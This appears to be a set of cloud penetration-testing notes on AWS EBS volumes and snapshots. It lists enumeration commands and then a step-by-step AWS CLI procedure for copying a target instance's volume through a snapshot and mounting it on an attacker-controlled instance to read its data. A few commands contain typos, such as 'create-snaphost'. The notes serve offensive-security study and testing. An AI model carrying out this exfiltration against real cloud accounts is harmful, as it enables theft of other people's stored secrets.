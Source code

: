 - `EBS - Elastic Block Service` is a storage service that could be attached to an EC2 instance to persistently store data on it (think of it as attaching a hard-drive to your computer)
- Multiple EBSs can be attached to a single EC2 instance
- an EBS Volume can be created from scratch or can be created from an existing Snapshot. If compromised, an attacker can create a volume from that snapshot, attach it to an EC2 instance and access the files on the snapshot
- `Snaphots`
	- Are Backup of EBS Volume
	- Stored in a non-publicaly accessible S3 bucket
	- Snapshotes can be used as a Volume or as AMIs
---
### Enumeration

Description | Command
--- | ---
Describe EBS Volums | `aws ec2 describe-volumes`
Describe EBS Snapshots | `aws ec2 describe-snapshots --owner-ids self`

### Data Exfiltration from EBS

- EBS Volume could contain all sorts of secrets but you don't always have a dircet access to that ec2 instance to see its volume
- First start by listing all the instances in your region `aws ec2 describe-instances`, locate the target instanec and find its `VolumeId`
- List the volum's information using `aws ec2 describe-volumes --filters "Name=volume-id,Values=${Vol_Id}"`
- Create a snapshot from the target volume and recored the resulting `Snapshot-Id` using `aws ec2 create-snaphost --volume-id ${Vol-Id} --description "Hacker Snapshot"` (You can use the `Policy Simulator` to confirm whether or not you can perform the snapshot creation action)
- Now create a volume from the snapshot using `aws ec2 create-volume --snapshot-id ${Snap-Id} --availability-zone ${Avail-Zone}`
- Attache the new volume to an ec2 instance that you already have access to using `aws ec2 attach-volume --volume-id ${Vol-Id} --instance-id ${Inst-Id} --device /dev/xvdc` 
- Finally, mount the Volume to on your instance using `sudo mount /dev/xvdc /home/user/MountingLocation`
